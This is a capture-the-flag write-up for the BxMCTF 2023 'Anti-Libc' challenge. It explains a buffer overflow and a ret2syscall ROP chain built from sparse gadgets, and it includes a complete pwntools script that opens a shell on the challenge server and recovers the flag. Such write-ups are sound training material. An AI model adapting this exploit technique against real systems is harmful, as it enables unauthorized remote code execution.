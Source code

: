 # BxMCTF 2023 - Anti-Libc Writeup

# Challenge Description

```
Why use many functions when few do trick?
Author: JW
```
[Challenge File](https://ctfmgci.jonathanw.dev/dl/bxmctf2023/pwn4.zip)

# TL;DR
Was given a statically linked binary with no libc functions, so ret2libc was not possible. All I/O operations were implemented using native syscalls, so this binary was vulnerable to [ret2syscall](https://www.ctfnote.com/pwn/linux-exploitation/rop/ret2syscall) attack. But it was not striaghtforward to do that as binary had very minimal functions, hence a lack of ROP gadgets. Had to devise clever ways of executing `execve("/bin/sh", 0, 0)` because that is the ultimate goal of the ret2syscall attack.

Need to put address of `/bin/sh` in RDI, 0 in both RSI and RDX to get our desired `execve()` execution. There's a buffer overflow in the given binary. Using the overflow, wrote `/bin/sh` in the `.bss` segment which is also the start of `input_buf` where all inputs are stored. There was no `pop rdx` instruction directly but `pop rsi; pop rdi; jump ADDR` instruction was there with a jump to a particular address which had multiple side effects after jumping. It decremented RSI, incremented RDI, pop a value to RBP and RBX and set RDX to DWORD PTR \[RDI\]. So, what I did is put `0x0` just before `/bin/sh` so that when the execution goes after `pop rsi; pop rdi; jump ADDR` then after popping values into RBP and RBX, the value `0x0` will be put in RDX as RDI will point to it. Then as a side effect mentioned earlier, RDI will be incremented to point to `/bin/sh` and voila! we have our right register states to be ready to execute `syscall`. 

One last thing was to put `0x3b` into RAX as RAX would hold the syscall number for `execve()`. This is where I was stuck for a good time as I was relying on tools like `ROPgadget`, `ropper` to figure out the ROP gadgets. But unfortunately, not a single one of them gave me any instruction involving some `mov` or `pop` or any other instruction so that I can fill RAX with my desired value. Out of frustration, I started manually searching through the disassembly in the hope of finding some instruction that would let me modify RAX. And at one point, I found a `mov ebx, eax` (AT&T Syntax) instruction and I already had a gadget `pop rbx`. This is one crucial lesson that I again got: **Never rely on tools blindly**. So, finally I had all the pieces of the puzzle to execute `syscall` and after that, I got the shell and the flag 😀!

# Solve.py
```python
#!/usr/bin/env python3.8

from pwn import *

context.arch = "amd64"
context.log_level = "info"

e = ELF("./main")

p = remote("198.199.90.158", "37699")

# p = process(e.path)
gdbscript = """
set follow-fork-mode child
start
b *0x40103f
"""
# p = gdb.debug(e.path, gdbscript=gdbscript)

offset = 64  # just before RBP
input_buf = 0x402020
EDX = b"\x00"
BIN_SH = b"/bin/sh\x00"
EVIL = EDX + BIN_SH
DUMMY_RBP = p64(input_buf + 0x100)
DUMMY_RBX = p64(1)
SYSCALL = p64(0x401055)
EVIL_ADDRESS = input_buf + 4 + len(DUMMY_RBP + DUMMY_RBX + SYSCALL)
POP_RSI_RDI = p64(0x401135)  # pop rsi ; pop rdi ; jmp 0x401106
POP_RBX = p64(0x40109C)
MOV_EBX_EAX = p64(
    0x40108D
)  # mov %ebx,%eax ; neg %ebx; cmpb $0x1,(%rsp); cmove %ebx,%eax ; mov %rbp,%rsp ; pop %rbp ; pop %rbx; ret
RSI = p64(1)
RDI = p64(EVIL_ADDRESS)
RBX = p64(0x3B)  # it'll go into RAX which is needed for correct syscall
RBP = p64(input_buf + 4)  # points to start of payload

# DUMMY RBP and RBX values to cater for the side effect after pop rsi ; pop rdi ; jmp 0x401106
payload = DUMMY_RBP + DUMMY_RBX + SYSCALL + EVIL
padding = b"A" * (offset - len(DUMMY_RBP + DUMMY_RBX + SYSCALL + EVIL))
payload += padding + RBP + POP_RSI_RDI + RSI + RDI
payload += POP_RBX + RBX + MOV_EBX_EAX

print(p.recvuntil("input? "))
p.sendline(str(len(payload)))
p.sendline(payload)

p.interactive()
```

# Flag
`ctf{p3rf_4nd_s3c_m1sm4tch}`
